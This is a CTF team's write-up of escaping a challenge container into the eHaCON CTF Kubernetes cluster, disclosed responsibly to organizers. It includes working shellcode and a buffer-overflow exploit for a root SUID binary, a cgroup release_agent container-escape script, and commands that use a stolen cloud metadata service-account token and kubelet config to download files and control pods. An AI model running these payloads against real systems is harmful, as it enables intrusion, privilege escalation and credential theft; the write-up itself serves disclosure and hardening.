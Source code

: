 # How we hacked eHaCON CTF Infra

#### TL;DR
This is the story of how me [H-mmer#8548](https://h-mmer.xyz) and my teammate **fredd#8512** hacked ourselves into eHaCON CTF kubernetes cluster node, gaining control over all challenge containers hosted in the cluster as well as their service account token which allowed us to download all the challenge files/flags you name it.


## Storytime
All of this happened kind of on an accident while we were doing another challenge challenge which required us to use FTP in passive mode and since the passive mode didn't work on outside networks we figured to go about it by a different way. There was another challenge hosted in a container which was in the same network as the FTP server was running. So being our hacky selves we figured out a way to elevate privileges inside that other container to root so we could install FTP client in there and solve the challenge in a much, much unintended way.

### Unintended solve
Here's the code for the privilege escalation using the BOF challenge binary which incidentally had root suid which enable all this. The binary itself didn't have any protections including no NX so it enabled us to jump to the env var with shellcode which was intended for the `Canonicalization` challenge itself.
```sh
export A=$(echo -e '\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x901\xffjqXH\x89\xfe\x0f\x05jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05')
(python3 -c 'import struct,sys;sys.stdout.buffer.write(b"A"*104+struct.pack("<Q",0x7fffffffe841))'; cat) | ./BOF
apt install ftp
```

### Re-return (the kernel module)
After clearing out other challenges we came back to this and realized that there's some unintended kernel pwn/docker escape challenge. Fredd found out through `capsh` that there's a `cap_sys_module` which allows you to load arbitary kernel modules which would allow us to do anything in the host kernel.

<img src="img/img3.png" height=300px width=700px>

Fredd went on to write a kernel module to exploit that **BUT** that didn't work since there was [additional protection](https://kernel.org/doc/html/latest/admin-guide/LSM/LoadPin.html) methods inside that specific kernel.

![img5](img/img5.png)
![img6](img/img6.png)
![img4](img/img4.png)

### Gaining access to k8s
 So after failed run at that we went on to try a container escape with [this](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/).
 ```sh
 d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;printf '#!/bin/sh\nps >'"$t/o" >/c;
chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
 ```
 After running the PoC we were inside the kubernetes node.
 The node was read-only filesystem and we couldn't run `kubectl get pods` straight away.
 Instead what we did was we started digging around the googleclouds computeMetadata and shortly after we found the service account token which we then used to retrieve all the artifacts from their storage.
 
 ![img2](img/img2.png)
 
 Command we used to download all the artifacts:
 ```sh
 mkdir files; for f in $(cat files.txt); do echo $f; curl -H 'Metadata-Flavor: Google' -H "Authorization: Bearer $TOKEN" $f -o "files/$(echo -ne $f|md5sum|awk '{print $1}').tar.gz"; done
 ```
 After we got all the files we kinda wanted to get the actual access to the kubernetes pods and we figured out a way to do that by finding kubelet config file in `/var/lib/kubelet/kubeconfig`, after some googling found out that `kubectl` stores its config in `~/.kube/config` so by setting `$HOME` directory for the root user in `/dev/shm` which was writable(is by default) and copying the `/var/lib/kubelet/kubeconfig` into our new home directory.
 `mkdir ~/.kube && cp /var/lib/kubelet/kubeconfig ~/.kube/config`
After that we were able to run any kubectl command.

<img src="img/img1.png">

### Lateral movement
 We spent good few hours trying some lateral movement tactics to other nodes specifically we tried to gain access to the scoreboard node, but we were unsuccessful in that since the service account had readonly permissions which didn't allow us to edit the metadata which would've had allowed us to include our own ssh-keys to the nodes or do pretty much anything. 

### Report to organizers
 Being unsuccessful at lateral movement we reproted the findings to the admins. After reporting our findings to the admins we went to sleep and when I woke up I've gotten a bunch of messages from the organizers/admins of the CTF thanking us for the responsible report and not breaking stuff. A while after the fixes were done, the original challenge which made all this possible was removed from the CTF since it couldn't be fixed in a way that would leave the binary solvable and also fix the security issues caused by it so the admins made the choice to remove the challenge. At that point I thought everything was fixed, but then I recalled they had another challenge which also included access to a container. Where we could once again gain the service account token through computeMetadata. After reporting that back they managed to remove the service account from the metadata listing so we couldn't get the token anymore and the metadata itself was a bit more restricted.

### Conclusion
It's not a good idea to run privileged containers in CTF challenges that let's people inside the container also not the best idea to use root SUID binary with bufferoverflow without any protections and make sure your cloud metadata/userdata is not accessible through your challenges.